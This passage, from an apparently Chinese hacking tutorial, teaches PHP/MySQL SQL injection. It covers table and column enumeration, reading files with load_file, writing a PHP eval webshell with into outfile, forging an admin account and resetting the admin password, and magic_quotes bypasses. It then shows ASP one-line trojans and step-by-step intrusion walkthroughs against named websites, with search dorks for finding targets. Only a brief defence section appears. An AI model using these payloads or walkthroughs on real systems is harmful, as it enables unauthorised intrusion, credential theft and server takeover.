如果表名存在则会返回正确，不存在则会返回错误，这里就不多演示了。毕竟是非常笨、非常蛋疼的方法，在 `mysql<5` 的情况下猜表名你完全没有必要去手工，因为那只会浪费时间，能用工具跑就用工具跑吧。我们重点说下 `mysql>5` 的情况下猜表名。我们先来看看这个神奇的 `information_schema` 数据库里面结构到底是什么样子的，如图22。

仅仅是猜表名和字段的话，我们只需要用到这个数据库中的 `TABLES` 表和 `COLUMNS`。我们先来看看 `TABLES` 表里面是什么样子，图23。

其中有两个字段是我们要用的，分别是 `table_schema` 和 `table_name`，分别代表表名所在的数据库的名字以及表名。那么废话就不多说了，我们先来判断 `hackerxfiles` 数据库中有多少表。这里要用到 `count` 函数，这个函数没什么讲的，就是返回统计数量，直接构造：

```sql
id=1' and 1=2 union select 1,count(TABLE_NAME),3,4,5 from information_schema.TABLES where TABLE_SCHEMA='hackerxfiles'
```

其中的 `information_schema.TABLES` 用到了我们前面讲过的跨库查询技术，意思就是 `information_schema` 库中的 `TABLES` 表。`TABLE_SCHEMA='hackerxfiles'` 后面跟的数据库名必须加单引号。

执行后用户那里返回了 2，说明 `hackerxfiles` 数据库里一共有两个表，如图24。这里的 2 大家不要混淆了哦。

既然有两个，那么我们就一个表一个表地来爆，构造如下语句：

```sql
id=1' and 1=2 union select 1,TABLE_NAME,3,4,5 from information_schema.TABLES where TABLE_SCHEMA='hackerxfiles'
```

执行后如图25：这里爆出了表名 `hackerxfiles`，而实际上我们的表也确实是这个。按道理说没有必要爆下去了，但是在真正入侵过程中万一它第一个爆出来的表不是我们刚好要的那个表呢？所以我们继续爆第2个，构造语句：

```sql
id=1' and 1=2 union select 1,TABLE_NAME,3,4,5 from information_schema.TABLES where TABLE_SCHEMA='hackerxfiles' and TABLE_NAME<>'hackerxfiles'
```

由于刚才 `hackerxfiles` 表已经爆出来了，我们要排除掉它，所以加一个 `and TABLE_NAME<>'hackerxfiles'`。`<>` 的意思大家还记得吧，就是不等于的意思。执行后如图26：

嘿嘿，这里就爆出了第2个 `test` 表。如果这个数据库中还有其他表的话，那么方法还是一样，在 `and TABLE_NAME<>'hackerxfiles'` 后面再加上 `and TABLE_NAME<>'test'`，排除掉 `test` 继续爆下一个表，一直到你排除后出错的时候，就说明表已经爆完了。这里就不演示了。

##### 3.3.5 猜字段

光有了表名还不行，还得有字段名啊，不然我们怎么知道它的密码存放在哪个字段呢？参考下图20的过程，那里我们直接就用了 `select 1,password,2,3,4,5`。是因为我们知道密码的字段是 `password`，而实际入侵过程中我们是不知道的。同样，如果是 MySQL < 5 的情况，还是推荐能用工具跑就用工具跑，但是这里还是提一下方法，语句如下：

```sql
select 1,password,2,3,4,5 from 表名
```

如果你猜出了表名，那么上面那个语句中的 `password` 字段如果存在则返回正确，不存在则会返回错误！

MySQL > 5 的情况下，我们仍然利用 `information_schema` 这个非常可爱的数据库。还记得先前说的吗，字段信息是放在 `information_schema` 数据库中的 `COLUMNS` 表里面的。我们先看看它的结构，让大家好理解我们下面在构造语句的时候，各个语句到底是什么意思，如图27：

那么我也不多解释了，前面的很多例子、很多逻辑方面的东西已经说得够多了，直接构造语句：

```sql
Id=1 and 1=2 union select 1,COLUMN_NAME,3,4,5 from information_schema.COLUMNS where TABLE_NAME='hackerxfiles'
```

前一步我们已经知道表名是 `hackerxfiles`，但在实际注入中我们不清楚 `hackerxfiles` 是不是我们要查的表，所以这里只能说假设。假设 `hackerxfiles` 是我们要查的表，所以我们后面跟上条件 `TABLE_NAME='hackerxfiles'`，记住单引号，提交后如图28。


爆出了第一个字段 `id`，继续使用我们爆表中用到的排除技巧，构造如下语句：

```sql
Id=1 and 1=2 union select 1,COLUMN_NAME,3,4,5 from information_schema.COLUMNS where TABLE_NAME='hackerxfiles' and COLUMN_NAME<>'id'
```


依次类推，最后爆出了所有的字段，如图29。

表名和字段都有了，爆内容就不用多说了吧，前面已经演示过很多次了。好了，这里猜表和猜字段方面就正式结束了。


既然猜表和猜字段方面的内容讲完了，那肯定不能漏了搜索型注入啊。下面是我写的一个很简单的 PHP + MySQL 搜索的例子，默认是输入要搜索的用户名，然后输出查询结果。现在我们的目标是通过特殊构造搜索语句，让它直接给我们查询出管理员的密码来！怎么样，是不是很猥琐啊？哈哈。不多说，看如下代码：

```php
<?php
// 省略……
$user=@$_POST['user'];  // 将 post 过来的要搜索的值赋值给 $user

$sql="select username from `hackerxfiles` where username like '%$user%'";  // 构造查询语句

$query=mysql_query($sql);  // 查询
$array=@mysql_fetch_array($query);  // 将查询结果转换成数组，并赋值给 $array
?>

<html>
<body>
<form action="" method="post">
请在下面输入你想要搜索的用户名<br>
用户名：<input name="user" type="text"><br><br>
<input type="submit" value="开始查询"><br><br>
查询结果:<?php echo $array[0]; ?>  // 输出查询结果
</form>
</body>
</html>
```

老规矩，其余代码别去管，主要看 SQL 语句：

```sql
select username from `hackerxfiles` where username like '%$user%'
```

这里又要引入一个新知识了，那就是 `like` 查询条件。通俗地来说，`like` 就是查询在数据库中存在指定字符的数据。那后面的 `%` 号又是啥意思呢？这个其实是包含的意思，前后都有 `%` 号，那么意思为前后包含。简单地来说，比如我要查询管理员这个用户，我只需要输入“理”字即可查询出管理员这个用户，因为是前后包含的。

那我们的目标是查询出管理员的密码，该怎么来构造呢？由于这里的 `select` 后面带了字段名，所以没有办法直接查询，因为不管怎么查它始终只会查询出 `username` 字段的数据，所以我们结合 `union` 来查，直接构造语句：

```sql
xxx%' and 1=2 union select password from `hackerxfiles` where username='管理员'#
```

来看看我们这样构造以后，原 SQL 语句会变成什么样子：

```sql
select username from `hackerxfiles` where username like '%xxx%' and 1=2 union select password from `hackerxfiles` where username='管理员'#%'
```

`#` 号直接注释掉后面的语句，所以实际的 SQL 语句是：

```sql
select username from `hackerxfiles` where username like '%xxx%' and 1=2 union select password from `hackerxfiles` where username='管理员'
```

嘿嘿，是不是很巧妙呢？我们先用 `xxx%'` 来将前面闭合，然后用 `and 1=2` 使得第一个 `select` 语句失效，最后再用 `union` 语句来查询出我们想查询的东西，当然就是管理员密码啦。来看我们执行后的结果吧，如图30。


图30

怎么样？威力很强大吧！下面我们开始更有意思的事情，那就是读文件和写文件。如果权限足够的话，一个注入点就可以让你直接获得 webshell 哦！

##### 3.3.6 Load_file（读文件）

`Load_file` 是什么，忘记的看第一部分的 MySQL 基础，已经简单提了下，就是 MySQL 的一个系统读文件函数。

首先，`load_file` 和 `into outfile` 在默认情况下都必须要是 root 权限才能使用。那么怎么判断我们当前的权限是否足够呢？我这里给大家介绍两个方法：

- 使用 `user()` 函数来判断当前的用户名。如果为 `root@xxxxx`，那么则说明当前为 root 权限。但是这个方法有一个弊端，就是有的管理员会把 root 的权限降低，所以即便是 root 也无济于事。
- 使用 `select count(*) from mysql.user` 语句来判断是否有足够权限。这句的意思大家应该都明白吧，`count` 是统计函数，意思就是统计 `mysql` 数据库的 `user` 表的内容数。在 MySQL 中有一个数据库是 `mysql`，其中有一个表为 `user`，在 `user` 表里面储存着 MySQL 用户的 hash。这个数据库默认只能为 root 权限才能访问，所以如果你当前权限不足的话，使用这句语句将会返回 0；如果权限足够的话，将返回大于 0 的任何数。因为我们不知道用户数一共是多少，所以我们可以使用 MySQL 中的子查询技术。子查询是什么大家别忘了哦，忘了翻前面。直接构造语句：`(select count(*) from mysql.user)>0`，如果大于 0 返回真，则说明有足够的权限。


图31


图32

那么恭喜你，你可以使用读文件和写文件函数。这里我们直接用上一节使用的 PHP 例子，构造如下语句提交来判断是否有足够权限：

```sql
Id=1 and (select count(*) from mysql.user)>0
```

如图31。可以看到这里返回正常，并没有提示什么错误，说明我们现在的权限是足够的。那么现在就开始 `load_file` 吧。首先我先在我网站目录下建立一个 `1.txt` 来测试。我的根目录为 `E:\PHP\htdocs\php_gbook\`，`1.txt` 的内容如图32。

那么我们直接构造语句：

```sql
Id=1 and 1=2 union select 1,load_file('E:/PHP/htdocs/php_gbook/1.txt'),3,4,5
```

这里注意，路径的前后必须加上单引号，不然会出错。还有一个地方，`\` 号必须书写为 `/` 号，不然会出错，因为 PHP 中判断路径是使用的 `/` 而不是 Windows 中的 `\`。来看看我们提交的效果吧，如图33。

txt 的内容直接被我们查询出来了！！


哈哈，怎么样，是不是很强大呢？！我们来想想，一个注入点如果权限足够，允许我们 `load_file` 的话，我们只要知道了网站的物理路径，甚至可以直接读取网站的配置文件，可以直接获得 MySQL 的账号密码；如果密码是管理员常用的话，我们甚至可以用密码直接社工他的邮箱；甚至懂得 PHP 代码审计、PHP 漏洞挖掘的朋友还可以直接读他的源代码，寻找可以 getshell 的漏洞。因为在很多情况下要通过 `into outfile` 来写文件，限制是很多的，这个后面我会说。

是不是很强大呢？？这里完全没有用到爆字段爆表什么的，就能达到惊人的效果！

##### 3.3.7 Into outfile

同样的，在使用 `into outfile` 前同样要遵循我前面说的权限问题，必须为 root 的权限，怎么判断就不啰嗦了，前面已经讲得很清楚。废话不多说，使用 `into outfile` 写出文件有很多方法，网上最常见的就是先将要写出的内容插入到数据库，然后再用 `into outfile` 函数导出。其实用不着这么麻烦，我们这里假设目标为导出 “hack” 这 4 个字母到网站目录下的 `2.txt`，直接构造语句：

```sql
Id=1 union select 1,concat(0x6861636B),3,4,5 into outfile 'E:/PHP/htdocs/php_gbook/2.txt'
```


网站的目录前面已经说了，这就不多说了。这里大家看见了一个新函数 `concat`，这个函数干嘛用的呢？这个函数里面那一串东西又是什么呢？先说括号内的东西吧，`0x6861636B` 其实就是 `hack` 的 16 进制。这个 16 进制怎么转换呢？其实网上也有非常多的转换工具，但是考虑到那些工具转换出来的格式并不适合注入，也为了防止有些同学乱下东西中毒，所以花了几分钟自己写了一个如图34的程序。

直接在原文处输入要转换的内容，下面的 `16Hex` 处将自动将转换过后的内容显示在右边的编辑框，相信大家都会用，也就不多啰嗦了。


然后 `concat` 这个函数的作用是返回一串字符串，实际上 `concat(0x6861636B)` 的意思也就是返回 `hack` 这个字符串的意思了。我们提交下看看效果，图35。

这里虽然出错了，但是我们不用管它，实际上我们的文件已经成功导出了，图36。

大家看到这里肯定会奇怪，为啥前面的用户信息也一起给导出来了呢？因为 `into outfile` 就是导出查询出的所有数据。因为我们这里 `id=1` 是成立的，确实有这个用户，所以自然就导出了。如果我们把语句改成：

```sql
Id=1 and 1=2 union select 1,concat(0x6861636B),3,4,5 into outfile 'E:/PHP/htdocs/php_gbook/2.txt'
```


图36

这样的话前面 `id=1 and 1=2` 是不成立的，这个时候就不会导出前面的用户信息，如图37。


图37

如果要导出一句话 webshell 也是一样的道理，我们只需要将一句话木马 `<?php @eval($_POST['chopper']);?>` 用我们的转换工具转换成 16 进制，然后按照上面的语句执行就可以导出了。方法完全一样，这里就不多啰嗦了。

通过这种方法来导出文件，完全不需要插入数据库什么的，可以直接导出，方便省事，所以推荐这种方法！

好了，到这里 `union` 讲完了，`select` 也讲完了，基于 `select` 的 `load_file` 和 `into outfile` 的利用方法也讲完了，`select` 部分算是告一段落了。下面来简单地说下 `insert into` 注入以及 `update` 注入。为什么是简单说下呢？因为这两种注入相对于 `select` 而言简直就是简单得不能再简单了，而且就当今 PHP 普遍配置来说，这两种注入能发挥的地方已经很少了。至于为啥，我后面慢慢会提到！

##### 3.3.8 Insert into 注入

在第一讲 MySQL 基础知识中我已经说了 `insert into` 的作用以及用法，如果忘记了就先翻回去再看看。这里我写了一个注册用户的页面来给大家演示，此页面默认用户注册成功是普通用户，我们的目标就是注册一个管理员用户！（管理员用户即 `admin` 字段的值为 1，参考 MySQL 那一讲）。

代码如下：

```php
<?php
// 省略无用代码....
$regname=@$_POST['regname'];
$regpass=@$_POST['regpass'];

$sql="insert into `hackerxfiles` (`id`,`username`,`password`,`regdate`,`admin`) values (...)";
$query=mysql_query($sql);
?>
<html>
<body>
<form action="" method="post">
用户名: <input name="regname" type="text"><br>
密码: <input name="regpass" type="text"><br><br>
<input type="submit" value="注册">
</form>
</body>
</html>
```

这里我们着重看 SQL 代码，这里所谓 SQL 代码是这样的：

```sql
insert into `hackerxfiles` (`id`,`username`,`password`,`regdate`,`admin`) values('','$regname','$regpass',now(),'0')
```

其中 `$regname` 和 `$regpass` 是我们可以控制的，并且没有任何过滤。而这里的 `admin` 字段的值是不可控制的，程序里面是写死了的，值为 0。我们的目标要注册一个管理员账户，简单地说我们就要让最后 `admin` 字段的值为 1。那么怎么办呢？直接构造以下输入：

- 用户名处输入：我就要注册管理员
- 用户密码处输入：`123456',now(),'1') #`

聪明的同学可能已经看懂了，其实不过是玩一个查缺补漏的游戏罢了。我们来看看我们这样提交以后 SQL 语句会变成什么样子：

```sql
insert into `hackerxfiles` (`id`,`username`,`password`,`regdate`,`admin`) values('','我就要注册管理员','123456',now(),'1')#',now(),'0')
```

大家应该都还记得 `#` 号在 SQL 语句里的作用吧？就是忽略掉 `#` 号后面的 SQL 语句。那么实际上我们的 SQL 语句变成了：

```sql
insert into `hackerxfiles` (`id`,`username`,`password`,`regdate`,`admin`) values('','我就要注册管理员','123456',now(),'1')
```


这样大家看懂了吧，通过我们的巧妙构造，成功地让我们注册成了管理员用户，如图38、39。

`Insert into` 注入讲到这里。此方式的注入主要是出现在网站的注册方面，下面说下 `update` 注入！

`Update` 已经忘记了的同学们先翻上面去看基础哦，基础很重要！

`Update` 注入一般是出现在网站的修改个人资料、修改个人密码等地方，还是不啰嗦。

简单写了一个修改密码页面，但是此页面只能修改当前用户的密码，不能修改管理员的密码。我们的目标就是通过精心构造的 SQL 语句来修改掉管理员密码！PHP 代码如下：

```php
<?php
// 省略无用代码……
$newpass=@$_POST['newpass']; // 获取 post 过来的新密码值，赋值给 $newpass

$sql="update `hackerxfiles` set password='$newpass' where username='黑客1'"; // SQL 语句
$query=mysql_query($sql); // 执行
?>

<html>
<body>
<form action="" method="post">
当前用户: 黑客1<br>
密码: <input name="newpass" type="text"><br><br>
<input type="submit" value="修改密码">
</form>
</body>
</html>
```

还是首先来分析这条 SQL 语句：

```sql
update `hackerxfiles` set password='$newpass' where username='黑客1'
```

可以发现 `$newpass` 的值是我们可以控制的，并且没有任何的过滤代码。而这里由于只能修改黑客1这个用户的密码，所以后面加了个条件语句 `where username='黑客1'`。当然，这是难不到我们的，直接在密码输入处构造代码如下：

```sql
admin' where username='管理员'#
```

我们这样提交以后 SQL 语句就会变成：

```sql
update `hackerxfiles` set password='admin' where username='管理员'#' where username='黑客1'
```

`#` 号后面的 SQL 代码直接无视，所以真正的 SQL 代码为：

```sql
update `hackerxfiles` set password='admin' where username='管理员'
```

这句代码就不用我多解释了吧，直接把条件通过精心构造的 SQL 语句设置成了 `where username='管理员'`，这样 update 就会直接修改管理员这个用户的密码，执行后如图40、41。

## 3.3.9 magic_quotes_gpc=ON篇

到这里呢，最常见的注入语句、利用方法、SQL 语句构造就算系统地讲解完成了。各位还记得么，我在注入开篇提到过的 magic_quotes_gpc 问题，以上的所有情况都是在 magic_quotes_gpc=OFF 的情况下进行的，那么如果 magic_quotes_gpc=ON 会怎么样呢？好，那么就来说说这个 PHP+MySQL 注入最大的“瓶颈”问题吧！

首先大家要了解什么是 magic_quotes_gpc=ON？magic_quotes_gpc=ON 对我们的注入会有什么影响呢？


图40


图41


图42


图43

在注入开篇的时候我就简单地提到过，当 magic_quotes_gpc=ON 的时候，所有 POST 和 GET 提交的参数中，凡是带有双引号、单引号，以及反斜杠和空格这几种符号的内容，都将在这些符号前面添加 `\` 号来进行转义。有的叉子肯定又要说了，这都啥跟啥啊，什么转义不转义的，我这样说肯定大家都不明白，我还是直接通过例子来说明吧。

注意一下，所有例子均在 magic_quotes_gpc=ON 的状态下进行。

直接通过我们前面的“PHP 万能密码登录”这个例子来测试看看，按照我们前面的方法：

- 用户名处输入：`管理员'--`（注意 `--` 前后有空格）
- 密码处随意输入

我们用这个方法试试看，看会变成什么样子，如图42：

你会发现，万能登录竟然不管用了？！这是怎么回事？我们来把 SQL echo 出来，大家就明白了，如图43：

看见了吗？我们 POST 过去的值里面的单引号前面被加上了一个反斜杠 `\`。所谓的转义就是这个意思，被打断了的语法在 MySQL 中是不能执行成功的！也就是说我们这句 SQL 代码完全就废了！

现在大家明白我为什么说这是注入的瓶颈了吧？那有没有办法绕过呢？

很抱歉，对于字符型的注入，如果对方 magic_quotes_gpc=ON 状态，那就没有办法注入，因为字符型的注入肯定在字符前后都得有单引号或者双引号括起来。我们要注入必定要闭合前面的单引号或者双引号，而 magic_quotes_gpc=ON 又将我们的这些符号“过滤”掉了，所以字符型注入面对 magic_quotes_gpc=ON，那就是完败状态！

包括搜索型注入在 magic_quotes_gpc=ON 下也是无能为力的。那么叉子肯定就要问了，那影响数字型的注入不呢？大家都知道在 SQL 语句中数字是不用单引号或者双引号括起来的，所以对数字型的注入危害不大。不过我本人写的程序，就算是数字型，也会用双引号给包围起来，但是一般的作者是不会这么蛋疼的。

那么下面就来说说在 magic_quotes_gpc=ON 状态下各种注入的注意事项，首先第一个从我们的盲注猜密码开始说起。还记得我们先前的一个语句么：

```sql
id=1 and left(password,6)='123456'
```

这个语句是猜 password 字段从左数起的前 6 个字符是不是 123456，如果在 magic_quotes_gpc=ON 状态下这个语句肯定是要出错的，因为 123456 的左右出现了单引号。那要怎么绕过呢？有的认为可以直接把单引号去掉么，这个想法是很幼稚的，在 MySQL 中字符型如果没有单引号或者双引号，语句会出错而导致执行失败，所以这里就要用其他的办法了。


图44

还记得我前面提到的转换工具么？这里教大家两个绕过方法，我们这里先在工具里面把 123456 给转换下，如图44：

第一个方法直接使用最下面的 16 进制，把语句变成：

```sql
id=1 and left(password,6)=0x313233343536
```

这样执行的效果和 `id=1 and left(password,6)='123456'` 的效果是一样的。

第 2 个方法就是使用 ASCII 字符，将语句构造成：

```sql
id=1 and left(password,6)=char(49,50,51,52,53,54)
```

这里用 char 函数将转换出来的 ASCII 值括起来，这样执行和 `id=1 and left(password,6)='123456'` 的效果也是一样的，这样就完美地绕过了 magic_quotes_gpc=ON。

其次要特别注意的就是 MySQL>5 爆表的时候我们经常用到如下的语句：

```sql
id=1 and 1=2 union select 1,TABLE_NAME,3,4,5 from information_schema.TABLES where TABLE_SCHEMA='hackerxfiles'
```

比如这个标准的猜表名语句，如果在 magic_quotes_gpc=ON 下执行，照样是要出错的，因为在最后的条件语句里面 `hackerxfiles` 同样有单引号。绕过方法和上面相同，转换成 ASCII 字符或者十六进制即可绕过，如下：

```sql
id=1 and 1=2 union select 1,TABLE_NAME,3,4,5 from information_schema.TABLES where TABLE_SCHEMA=0x6861636B65727866696C6573
```

或者

```sql
id=1 and 1=2 union select 1,TABLE_NAME,3,4,5 from information_schema.TABLES where TABLE_SCHEMA=char(104,97,99,107,101,114,120,102,105,108,101,115)
```

然后就是我们可爱的 load_file 了，就拿我们上面的一段 load_file 语句来说：

```sql
id=1 and 1=2 union select 1,load_file('E:/PHP/htdocs/php_gbook/1.txt'),3,4,5
```

这里的路径左右明显有引号，而这个引号去掉的话是肯定执行不成功的。绕过方法仍然和上面一样，先将 `E:/PHP/htdocs/php_gbook/1.txt` 转换，然后构造如下语句：

```sql
id=1 and 1=2 union select 1,load_file(0x453A2F5048502F6874646F63732F7068705F67626F6F6B2F312E747874),3,4,5
```

或者

```sql
id=1 and 1=2 union select 1,load_file(char(69,58,47,80,72,80,47,104,116,100,111,99,115,47,112,104,112,95,103,98,111,111,107,47,49,46,116,120,116)),3,4,5
```

至于最后的 into outfile 只能说抱歉了。又有叉子要问，为啥 into outfile 就要说抱歉呢？照着上面转换不行么？首先 into outfile 并不属于 MySQL 函数，它的值直接就是写死了的字符型。就算我转换成 16 进制什么的，它也只会认为这个 16 进制就是路径，而不会先把这个 16 进制还原。显然，这样是不能写出文件的！

以上就是在 magic_quotes_gpc=ON 状态下注入需要注意的地方啦。

至此，注入篇正式完结。可能还有没有提到的地方，涉及到的新技术也不算多，都是老东西，但是老东西都没搞懂，新东西搞得懂吗？好了，下面就是几点 PHP 防御注入方面的东西了。

## 3.3.10 PHP+MySQL 注入防篇

通过上面大篇幅的讲解注入攻击，大家是否对防御有了自己的看法了呢？一个不了解 SQL 注入技术的程序员是不可能写出一个好的防御措施的，所以要防必先了解其攻。那我就把我平时常用的防御方法给大家列举一下：

数字型参数直接用 `is_numeric()` 函数来判断（`is_numeric` 函数的作用在于判断一个值是否为数字，如果为数字则返回真，不为数字（比如包含了符号，包含了中英文什么的）则返回假）。这里假如我们要判断 GET 传值过来的 id，就可以用如下代码：

```php
<?php
$id = $_GET['id'];
if (is_numeric($id)) {
    // 继续执行。。
} else {
    // 参数非法，终止运行
    Exit();
}
?>
```

过滤危险字符，我们前面一直说 magic_quotes_gpc 啊 magic_quotes_gpc 的，但是这个东西必须得修改 PHP 的配置文件。假如使用虚拟主机的朋友就不能修改，恰巧那个管理员又懒，也没有设置这个选项，那我们就没办法了么？当然不是！看下面代码：

```php
<?php
function post_check($post) {
    if (!get_magic_quotes_gpc()) { // 判断 magic_quotes_gpc 是否为打开
        $post = addslashes($post);  // 对提交数据进行过滤
    }
    $post = str_replace("_", "\\_", $post); // 把“_”过滤掉
    $post = str_replace("%", "\\%", $post); // 把“%”过滤掉
    return $post;
}
// 然后对各种涉及到字符型的参数使用自定义函数 post_check 进行过滤
$username = post_check($_POST['username']);
?>
```

MySQL 语句书写一定要规范！养成打引号的习惯，不管是数字还是字符通常单引号打上。对程序只会有好处不会有坏处！表名设置特殊，字段名设置特殊。看了上面的注入攻击篇大家也知道，在 MySQL 4.x 下要想得到表名和字段名是很难用猜的，所以设置特殊的表名防止别人猜解。

闲话：后台路径要藏好，密码加密要牢靠，目录设置要严谨，系统安全要做好。

##### 小结

还是那句话，这篇文章讲的是很基础的 SQL 注入攻击，想深入的同学可以多找点国外的 PDF 文档，国内很多人翻译的。一般外国佬创新率较高，经常搞出点新型攻击方法出来，所以多看点国外文档是有好处的。

至于防御方面，并不是一天两天就能防御好的，道高一尺，魔高一丈，这是要靠长期的经验累积的！！最后奉劝大家不要拿技术干坏事，任何东西都是两面性的，一把双刃剑就看你怎么用了。

## 3.4 一句话使用

##### 简介

黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：

```text
<%execute request("value")%>    <%eval request("value")%>
```

当知道了数据库的 URL，就可以利用本地一张网页进行连接得到 Webshell。（不知道数据库也可以，只要知道 `<%eval request("value")%>` 这个文件被插入到哪一个 ASP 文件里面就可以了。）

这就被称为一句话木马，它是基于 B/S 结构的。

##### 使用方法

首先，找到数据库是 ASP 格式的网站，然后以留言板或者发表文章的方式，把一句话添加到 ASP 数据库或者加进 ASP 网页。

记住！我们的目的是把一句话 `<%execute request("value")%>` 添加到数据库，无论任何方式……

然后打开客户端（就是你电脑上面的那个 htm 文件），填上加入了一句话的 ASP 文件或者是 ASP 网页，然后杀进去！这就可以干你想干的事情了！

##### 3.4.1 一句话木马原理

首先 `<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>` 是 JavaScript 脚本的开始标记，其中 RUNAT 属性值 SERVER 表示脚本将在服务器端运行。后面的 eval 是一句话木马的精华部分，使用 eval 方法的话，它里面的字符串将会被执行。这样当脚本在服务器端运行的时候，同时也执行了 `Request.form("#")+` 这句代码。`Request.form("#")` 的作用是读取客户端文件中 HTML 标记属性中 name 值被命名为 # 的部分，例如如下摘自一句话客户端的代码：

```html
<textarea name=# cols="80" rows="10">
  set iP=server.createObject("Adodb.Stream")
  iP.Open
  iP.Type=2
  iP.CharSet="gb2312"
  iP.writetext request("aoyun")
  iP.SaveToFile server.mappath("aoyunwan.asp"),2
  iP.Close
  set iP=nothing
  response.redirect "aoyunwan.asp"
</textarea>
```

学过 HTML 的朋友应该注意到了，在 textarea 标记中的 name 属性被赋值为 #，也就是服务器端就是要读取其中的代码（使用 `Request.form('#')`），然后执行（使用 `eval(Request.form('#')+"")`），也就是执行了：

```vb
set iP=server.createObject("Adodb.Stream")
iP.Open
iP.Type=2
iP.CharSet="gb2312"
iP.writetext request("aoyun")
iP.SaveToFile server.mappath("aoyunwan.asp"),2
iP.Close
set iP=nothing
response.redirect "aoyunwan.asp"
```

`"aoyunwan.asp"` 学过 ASP 的朋友应该看得懂，上面代码的意思是首先创建一个流对象 iP，然后使用对象中的 writetext 方法将 `request("aoyun")` 读取过来的内容（就是我们常见的一句话客户端的第二个 textarea 域中的内容，也就是我们的木马代码）写入服务端的 `aoyunwan.asp` 文件中，写入结束后使用 `set iP=nothing` 释放对象，然后使用 `response.redirect "aoyunwan.asp"` 转向写入的文件。就是我们最后见的木马了！

##### 关于服务器错误

经常当我们在一个 ASP 文件内添加了一句话后，就会出现类型不匹配的错误：

```text
Script error detected at line 1.

Source line: execute request("nettoo")
```

Description: 类型不匹配: 'execute'

这个如何解决呢？想出了一个好办法。只要用 `eval` 替换掉 `execute` 服务端，就不会出错了！

##### 一句话木马使用方法及教程

“一句话木马”入侵“EASYNEWS 新闻管理系统”

“EASYNEWS 新闻管理系统 v1.01 正式版”是在企业网站中非常常见的一套整站模板，在该网站系统的留言本组件中就存在着数据过滤不严漏洞。如果网站是默认路径和默认文件名安装的话，入侵者可以利用该漏洞直接上传 ASP 木马程序控制整个网站服务器。

- 1. 搜索入侵目标

使用了“EASYNEWS 新闻管理系统 v1.01 正式版”的网站，在网页页面的底部版权声明处往往会有关键字符串“WWW.52EASY.COM 版权所有”。只要在 GOOGLE 或百度中以该字符串为关键词进行搜索，就可以找到大量的入侵目标。

- 2. 检测入侵条件

在这里，我们以网站 `http://www.qswtj.com/news/index.htm` 为例进行一次入侵检测。“EASYNEWS 新闻管理系统”网站的留言本数据库文件默认是位于 `ebook/db/ebook.asp`，首先在浏览器地址栏中输入 `http://www.qswtj.com/news/ebook/db/ebook.asp`，回车后在浏览器页面中将显示访问留言本数据库文件的返回信息。如果在页面中显示乱码，则说明该网站的留言本数据库文件没有改名，可以进行入侵。

- 3. 在数据库中插入 ASP 后门

```text
<% l=newl request("niubi") %>
```

前面提到了该新闻系统的留言本插件存在过滤不严，因此我们可以通过提交发言，在数据库中插入“一句话木马”服务端代码：

在浏览器中访问 `http://www.qswtj.com/news/khly.htm`，打开提交留言页面。在提交页面中的“主页”栏中，直接填写“一句话木马”服务端代码，其它随便填写。确定后点击“发表留言”按钮，文章发表成功后，即可将“一句话木马”服务端代码插入到留言本数据库中了。

- 4. 连接后门上传 Webshell

由于留言本数据库文件 `ebook.asp` 是一个 ASP 文件，所以我们插入到数据库文件中的 ASP 语句将会被执行。将“一句话木马”客户端中的提交地址改为留言本数据库文件地址，然后用浏览器打开客户端，在上方的输入框中输入上传 ASP 木马的保存路径，在下面的输入框中可以粘贴入其它的 ASP 木马代码，这里选择的是桂林老兵网站管理助手 ASP 代码。点击提交按钮后，则才粘贴的 ASP 木马将被写入到论坛服务器中保存。

- 5. 打开 Webshell

上传的 ASP 木马被保存到与数据库文件同一 WEB 目录下，文件名为 `temp.asp`，因此我们在 IE 浏览器中打开页面 `http://www.qswtj.com/news/ebook/db/temp.asp`，输入默认的密码 `gxgl.com`，就可以看到一个 Webshell 了。

在 Webshell 中可以上传其它的文件或者安装木马后门、执行各种命令等，网站的服务器已经掌握在我们的手中，可以为所欲为了。

##### 3.4.2 社区超市入侵动网论坛

###### 1. 检测入侵条件

以入侵论坛 `http://www.bbsok.com/` 为例。首先在浏览器地址栏中输入 `http://www.bbsok.com/data/shop.asp`，回车后在浏览器页面中将显示访问 `shop.asp` 文件的返回信息。说明该论坛的社区超市数据库文件没有改名或删除，可以进行入侵。

###### 2. 在数据库中插入 ASP 后门

登录论坛后，点击页面中的“娱乐”→“社区超市”，打开社区超市页面。在该页面中选择商店申请，打开“商店申请入驻”页面 `http://www.bbsok.com/z_shop_newshop.asp`，在页面中填写任意信息，注意在“商店招牌”栏中，添加刚才的 ASP 代码，确定后点击“申请”按钮进行提交，即可将 ASP 代码保存在数据库文件中了。

```text
/%execute request("1")%/
```

后面的步骤就与上面介绍的一样了，只需要用蓝屏木马连接数据库文件 `http://sdoygb.w2.dvbbs.net/data/shop.asp`，然后上传 Webshell 就可以控制论坛服务器了。

##### 3.4.3 一句话木马入侵未知网站

从上面的两个例子，我们可以看出利用“一句话木马”入侵控制存在数据库过滤不严漏洞的网站，成功的前提是一定要知道网站的数据库地址。对于一些使用了未知网页程序的网站，我们如何才能找到它的数据库地址呢？这就要结合暴库或者跨站之类的方法了，下面只是结合一个简单的暴库，介绍一下利用一句话木马入侵未知网站的方法。

###### 1. 暴库得到数据库路径

以 `http://bbs.dwself.com` 为例。在浏览器中打开 `http://bbs.dwself.com/join/listall.asp?bid=2`，将地址栏中 join 后的 `/` 改为 `%5c`，在提交后的返回信息中可以看到网站数据库地址：`d:\wwwroot\shui1ong\wwwroot\admin\adshuilonG!#).asp`。数据库文件名中加入了 `#` 符号，`#` 符号在 IE 中执行时被解释为截断符，要访问该数据库文件则必须将 `#` 号变为 `%23` 才可以。因此数据库文件的实际 WEB 地址为 `http://bbs.dwself.com/join/admin/adshuilonG!%23).asp`。

###### 2. 注册网站，插入“一句话木马”

由于数据库文件是 ASP 文件格式的，满足入侵条件，因此现在我们需要将“一句话木马”插入到数据库文件中去。

在网页上点击注册网站按钮，打开注册链接 `http://bbs.dwself.com/join/add.asp?action=step3&bid=3`，在资料填写页面处的站点名称或地址中写入“一句话木马”服务端代码，其它随便填写。然后点击完成按钮提交数据，木马服务端就被插入到数据库文件中了。

最后只需要用蓝屏木马连接数据库文件 `http://bbs.dwself.com/join/admin/adshuilonG!%23).asp`，然后上传 ASP 木马就可以控制该网站的服务器了。

### 3.4.4 网站配置文件插马——MY动力管理系统

